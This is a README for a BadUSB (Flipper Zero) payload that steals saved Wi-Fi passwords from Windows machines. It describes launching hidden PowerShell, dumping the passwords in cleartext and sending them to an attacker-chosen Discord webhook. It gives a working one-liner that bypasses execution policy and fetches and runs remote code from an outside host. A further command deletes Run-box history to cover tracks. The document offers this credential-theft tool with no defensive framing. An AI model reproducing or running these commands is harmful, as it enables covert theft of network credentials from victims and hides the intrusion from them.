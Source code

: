 # WLAN Windows Password - BadUSB

A script used to acquire target WLAN Passwords on a Windows machine and send them using a Discord webhook of your choosing.

**Category**: WLAN, Credentials

## Description

A script used to acquire target WLAN Passwords on a Windows machine and send them using a Discord webhook of your choosing.

Opens PowerShell hidden, grabs wlan passwords, saves as a cleartext in a variable and exfiltrates info via Discord Webhook.

Then clears run history.

## Getting Started

### Dependencies

* An internet connection
* Windows 10,11

# Usage
Replace `https://discord.com/api/webhooks/<channel_id>/<webhook_id>` with your own [webhook url](https://support.discord.com/hc/en-us/articles/228383668-Intro-to-Webhooks).
### Powershell
```powershell
powershell -w h -ep bypass $discord='<your_webhook_here>';irm winwifi.remothe.dev | iex

powershell "Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue" | iex
```

### Executing program | Flipper Zero
* Plug in your device
* Invoke 2 netsh commands
* Invoke-WebRequest will be entered in the Run Box to send the content
* Invoke-powershell command to remove 'Run' history values from Registry

## Credits

- [RemoTheDev](https://remothe.dev) - Modified script and deleted redundancies for subjectively more efficent use and less space.
- [Aleff](https://aleff-github.github.io/) - BadUSB script foundation
